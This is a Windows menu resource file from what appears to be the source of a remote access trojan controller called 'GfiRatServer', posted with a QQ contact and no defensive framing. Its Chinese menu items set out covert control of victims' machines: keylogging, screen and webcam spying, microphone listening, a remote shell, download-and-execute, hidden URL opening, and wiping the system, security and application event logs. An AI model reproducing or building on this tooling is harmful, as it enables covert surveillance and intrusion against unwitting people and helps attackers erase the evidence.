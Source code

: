 # GfiRatServer

QQ 84271643

IDR_LIST MENU
BEGIN
    POPUP "MENU"
    BEGIN
        POPUP "小功能(&1)"
        BEGIN
            MENUITEM "桌面预览(&1)",                    ID_DESK_LOOK
        END
        MENUITEM "文件管理(&F)",                    IDM_FILEMANAGER
        MENUITEM "键盘记录(&K)",                    IDM_KEYBOARD
        POPUP "屏幕控制(&C)"
        BEGIN
            MENUITEM "老屏幕",                         IDM_SCREENSPY
            MENUITEM "新屏幕",                         IDM_newSCREENSPY
        END
        MENUITEM "系统管理(&M)",                    IDM_SYSTEM
        MENUITEM "视频查看(&V)",                    IDM_WEBCAM
        MENUITEM "语音监听(&W)",                    IDM_AUDIO_LISTEN
        MENUITEM "音响监听(&I)",                    IDM_SPEAKER_LISTEN
        MENUITEM "远程终端(&T)",                    IDM_REMOTESHELL
        MENUITEM "主机管理(&H)",                    IDM_SYSINFO
        MENUITEM "注  册  表(&R)",                 IDM_REGEDIT
        MENUITEM "代理映射(&p)",                    IDM_PROXY
        MENUITEM "服务管理(&G)",                    IDM_SERMANAGER
        POPUP "筛选功能(&D)"
        BEGIN
            MENUITEM "进程(&P)",                      ID_JINCHENG
            MENUITEM "窗口(&W)",                      ID_CHUANGKOU
            MENUITEM "重置(&R)",                      ID_CHONGZHI
        END
        POPUP "其它功能(&O)"
        BEGIN
            MENUITEM "下载执行(&D)",                    IDM_DOWNEXEC
            POPUP "访问网址(&V)"
            BEGIN
                MENUITEM "隐藏(&H)",                      IDM_OPEN_URL_HIDE
                MENUITEM "显示(&S)",                      IDM_OPEN_URL_SHOW
            END
            POPUP "清理日志(&C)"
            BEGIN
                MENUITEM "清除全部日志(&A)",                  IDM_CLEANEVENT
                MENUITEM "理系统日志(&S)",                   IDM_CLEAN_System
                MENUITEM "清除安全日志(&Q)",                  IDM_CLEAN_Security
                MENUITEM "清除应用程序(&Y)",                  IDM_CLEAN_Application
            END
            MENUITEM SEPARATOR
            MENUITEM "下载更新(&U)",                    IDM_UPDATE_SERVER
            MENUITEM SEPARATOR
            MENUITEM "消息发送",                        IDM_SHOWMSG
            MENUITEM "远程交谈",                        IDM_CHAT
        END
        MENUITEM SEPARATOR
        POPUP "复制信息(&p)"
        BEGIN
            MENUITEM "复制IP(&I)",                    IDM_IP
            MENUITEM "地理位置(&D)",                    IDM_DILIXINXI
            MENUITEM "所有信息(&A)",                    IDM_ALL
        END
        POPUP "会话管理(&S)"
        BEGIN
            MENUITEM "卸载(&U)",                      IDM_REMOVE
            MENUITEM SEPARATOR
            MENUITEM "注销(&L)",                      IDM_LOGOFF
            MENUITEM "重启(&R)",                      IDM_REBOOT
            MENUITEM "关机(&S)",                      IDM_SHUTDOWN
        END
        MENUITEM "更改备注(&E)",                    IDM_RENAME_REMARK
        MENUITEM "更改分组(&B)",                    IDM_CHANGE_GROUP
        MENUITEM SEPARATOR
        MENUITEM "选择全部(&A)",                    IDM_SELECT_ALL
        MENUITEM "取消选择(&U)",                    IDM_UNSELECT_ALL
    END
END

